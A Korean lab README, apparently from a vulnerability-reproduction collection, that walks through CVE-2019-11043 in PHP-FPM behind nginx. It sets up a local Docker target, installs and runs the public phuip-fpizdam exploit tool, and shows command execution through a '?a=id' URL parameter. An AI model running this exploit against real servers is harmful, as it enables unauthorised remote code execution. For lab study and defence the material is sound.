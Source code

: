 # PHP-FPM 원격 코드 실행 (CVE-2019-11043)

PHP-FPM은 PHP를 FastCGI 방식으로 실행하기 위한 모듈입니다.
PHP 7.1.x, 7.2.x, 7.3.x 버전 중 일부 설정에서, nginx와 함께 잘못 설정될 경우
버퍼를 초과해서 쓰기가 발생하여 원격 코드 실행(RCE)이 가능해집니다.

취약점 번호: CVE-2019-11043

주요 영향 버전: PHP 7.1.33 미만, PHP 7.2.24 미만, PHP 7.3.11 미만

## 실습 환경

- Windows 11 wsl 환경

도커 명령어

```bash
docker compose up -d
```

![alt text](2.png)
서버 접속

```bash
http://127.0.0.1:8080/index.php # http://your-ip:8080/index.php
```

접속 시 정상적으로 hello world가 뜨는 것을 확인할 수 있습니다.
![alt text](1.png)

## 익스플로잇 과정

사용된 도구: https://github.com/neex/phuip-fpizdam

설치방법

```bash
go install github.com/neex/phuip-fpizdam@latest
```

공격 실행 명령어

```bash
~/go/bin/phuip-fpizdam http://127.0.0.1:8080/index.php
```

![alt text](4.png)
취약한 PHP-FPM 설정을 가진 서버를 대상으로, QSL과 PISOS 값의 조작을 통해 세션 설정을 변경하였습니다.

## 결과

```bash
http://127.0.0.1:8080/index.php?a=id
```

![alt text](3.png)

그 결과 URL 파라미터(?a=명령어)를 통해 서버 측 명령어를 원격으로 실행하는 데 성공했습니다. 위 스크린샷은 서버에서 id 명령어를 실행해서 나온 결과를 보여줍니다.

## 주의사항

이 취약점은 PHP-FPM의 일부 자식 프로세스에만 영향을 미칩니다.
따라서 명령어 실행이 실패할 경우, 취약한 프로세스에 연결될 때까지 여러 번 시도해야 할 수 있습니다. 또한 익스플로잇의 성공 여부는 nginx 서버의 설정에 크게 좌우됩니다. 일반적으로 취약한 구성은 다음과 같은 특징을 가집니다:

- FastCGI 처리가 활성화된 서버
- PHP 파일이 PHP-FPM을 통해 전달되는 구조
- URL을 특정 방식으로 분리하는 취약한 location 규칙 사용

[English version](https://github.com/vulhub/vulhub/blob/master/php/CVE-2019-11043/README.md)

[中文版本(Chinese version)](README.zh-cn.md)
